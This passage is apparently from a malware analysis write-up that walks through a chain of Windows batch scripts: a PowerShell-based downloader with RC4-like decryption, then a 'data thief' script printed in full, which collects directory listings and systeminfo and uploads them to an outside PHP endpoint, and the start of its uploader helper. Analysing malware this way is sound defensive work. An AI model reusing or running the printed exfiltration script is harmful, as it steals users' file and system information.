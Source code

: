 This batch script uses PowerShell for decryption and downloading.  

This downloads a file from a specified URL. If the file is encrypted, it decrypts it using a custom algorithm (RC4-like with a timestamp as the key) and then saves it. If the file is not encrypted, it simply downloads and saves it. 

In most simple term its **a wrapper for a downloader**.

### Fourth Batch Script: 54744204.bat (The Data Thief)

```bat
@echo off
pushd "%~dp0"
dir C:\Users\%username%\downloads\ /s > %~dp0d1.txt
dir C:\Users\%username%\documents\ /s > %~dp0d2.txt
dir C:\Users\%username%\desktop\ /s > %~dp0d3.txt
systeminfo > %~dp0d4.txt
timeout -t 5 /nobreak
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d1.txt" "%COMPUTERNAME%_down.txt" >nul
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d2.txt" "%COMPUTERNAME%_docu.txt" >nul
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d3.txt" "%COMPUTERNAME%_desk.txt" >nul
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d4.txt" "%COMPUTERNAME%_sys.txt" >nul
```

This one straight-up perform data exfiltration.

1. **`pushd "%~dp0"`**
    
    → Sets working dir to where the script is located.
    
2. **`dir ... > dX.txt`**
    
    → Dumps directory listings to files:
    
    - `d1.txt` → Lists everything in Downloads
    - `d2.txt` → Lists everything in Documents
    - `d3.txt` → Lists everything on Desktop
3. **`systeminfo > d4.txt`**
    
    → Captures full system info (OS, CPU, RAM, etc.)
    
4. **`timeout -t 5 /nobreak`**
    
    → Pauses for 5 seconds (maybe for things to complete).
    
5. **`call 33283112.bat ...`**
    
    → **Uses a helper script** (`33283112.bat`) as a file uploader to uploads each `dX.txt` file to a PHP upload endpoint hosted at:
    `ausbildungsbuddy.de/modules/mod_mail/src/upload.php`

### Fifth Batch Script: 33283112.bat (The Uploader)

```bat
@echo off
pushd %~dp0
set "tgurl12=%~1"
set fN12=fn
set fD12=fd
```
